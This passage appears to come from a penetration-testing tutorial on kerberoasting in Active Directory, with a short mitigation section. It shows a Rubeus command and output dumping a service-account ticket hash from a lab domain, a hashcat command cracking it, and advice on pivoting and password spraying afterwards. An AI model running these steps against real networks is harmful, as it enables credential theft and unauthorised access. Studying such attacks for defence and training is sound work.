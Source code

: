 If the target service has a registered SPN, then it can be attacked. Chance of success depends on service account password strength, as well as what permissions the service account has. To enumerate attackable accounts, you can use a tool such as `BloodHound`.

### Service Accounts & Mitigation
If the service account is a domain admin, you have control similar of that of a golden / silver ticket and can now gather loot and exfiltrate.

If the service account isn’t a domain admin, you can use the account to pivot or you can use the cracked passwords to spray against other usernames.

In order to mitigate `kerberoasting`, you should use strong passwords for the service account - the passwords are less likely to be cracked if they are strong. As well as don’t make the service accounts domain admins - they don’t need to be admins.

### Using Rubeus
Once you have followed the steps to harvest tickets with Rubeus, you can run the following command

```bash
C:\\>Rubeus.exe kerberoast
..
[*] Searching the current domain for Kerberoastable users

[*] Total kerberoastable users : 2
[*] SamAccountName         : SQLService
[*] DistinguishedName      : CN=SQLService,CN=Users,DC=CONTROLLER,DC=local
[*] ServicePrincipalName   : CONTROLLER-1/SQLService.CONTROLLER.local:30111
[*] PwdLastSet             : 5/25/2020 10:28:26 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.loca 
                             l:30111*$6A1256DDAE88BE81A151DADFAB6900A9$7A962A7D371BE9638639AB03E0E1FB461D8960 
                             1B0D1C4B0682C915A7BFEC1CFF7315FFC80DDDD46535559473186B171A48451EB561A8D667A4A1BB
...
```
Now you have the hash, you can easily crack is with `hashcat`

```bash
# Hash copied into hash.txt
user@machine$ hashcat-m 13100 -a 0 hash.txt rockyou.txt
>> Summer2020
>> MyPassword123
...
```
### Using `Impacket`
Installation:

[https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19](https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19)

- Follow the above GitHub link and install `Impacket`
- Move into the directory and `pip install .`
